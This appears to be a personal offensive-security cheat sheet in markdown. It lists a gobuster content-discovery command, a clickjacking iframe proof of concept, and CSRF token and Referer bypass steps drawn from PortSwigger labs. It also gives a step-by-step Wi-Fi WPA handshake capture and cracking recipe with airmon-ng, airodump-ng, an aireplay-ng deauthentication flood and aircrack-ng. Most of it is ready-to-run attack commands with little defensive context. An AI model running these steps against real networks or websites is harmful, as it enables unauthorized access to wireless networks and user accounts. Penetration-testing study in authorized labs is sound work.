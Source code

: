 # CIA
	Integrity : data only change by auth.
	Avalability : Avalable data when user need.
	Confidentility : Data access by auth.
  
# Containt Discover
	gobuster -u http://fakebank.com -w wordlist.txt dir 
	
# ClickJacking
https://numberless-holddown.000webhostapp.com/clickjacking.php?url={url}
or
		
		<!DOCTYPE html>
		<html lang="en">
		<head>
		  <meta charset="UTF-8">
		</head>
		<body>
		  <iframe src="{url}" frameborder="0"></iframe>
		</body>
		</html>

# CSRF
## CSRF parameter is not available
	---> generate CSRF POC and try

## CSRF parameter available 

	-> Change action METHOD (GET OR POST)

	-> Remove CSRF parameter
	eg. email and CSRF
	remove CSRF
	now> email

	-> enter own CSRF taken and send to victim (CSRF token one time use so, create fresh token everytime after use. For testing use inco mode. for more read paragraph.)



	1)  Open Burp's browser and log in to your account. Submit the "Update email" form, and intercept the resulting request.
	    Make a note of the value of the CSRF token, then drop the request.
	2) Open a private/incognito browser window, log in to your other account, and send the update email request into Burp Repeater.
	3) Observe that if you swap the CSRF token with the value from the other account, then the request is accepted.
	4) Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab. Note that the CSRF tokens are single-use, so you'll need to include a fresh one.
	    Store the exploit, then click "Deliver to victim" to solve the lab.


	->if CSRF key cookies and CSRF token are available

	https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie 

	->if header error occure
	1) so try remove header
	https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present

	2) if header remove not work try changing domain like
	refrer: http://google.com
	to
	http://burpsuit/?google.com
	https://portswigger.net/web-security/csrf/lab-referer-validation-broken



# Wifi Password Hacking
	

	Step 1:

	Put your wireles lan card on monitor mode

	 airmon-ng start "wireless lan card name"
	=> airmon-ng start wlan0

	Step 2:

	Capture Traffic with Airodump-ng

	airodump-ng "wireless lan card monitor mode"

	=> airodump-ng wlan0mon


	Step 3:

	Focus airodump-ng on one AP on One Channel

	 airodump-ng --bssid dummy -c dummy --write WPAcrack wlan0mon

	=> airodump-ng --bssid 8C:FD:18:88:79:68 -c 9 --write WPAcrack wlan0mon


	Step 4:

	in order to capture the encrypted password we need to have the client authenticate against AP.
	we do deauth signal to client

	 aireplay-ng --deauth 1000 -a bssid wlan0mon

	=> aireplay-ng --deauth 1000 -a 8C:FD:18:88:79:68 wlan0mon


	Step 5:

	Now we have to crack the dump file with aircrack-ng

	 aircrack-ng WPAcrack-01.cap -w (localtion of wordlist)

